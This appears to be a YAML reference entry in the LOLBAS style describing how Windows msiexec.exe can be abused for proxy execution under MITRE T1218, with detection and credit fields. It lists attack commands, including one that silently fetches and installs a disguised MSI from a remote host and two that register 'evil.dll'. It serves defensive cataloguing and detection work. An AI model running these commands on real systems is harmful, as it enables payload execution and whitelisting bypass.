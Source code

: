 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Code_Sample:
  - Code:
Detection:
  - IOC: msiexec.exe getting files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
Acknowledgement:
  - Person: netbiosX
    Handle: "@netbiosX"
  - Person: Philip Tsukerman
    Handle: "@PhilipTsukerman"
---
```


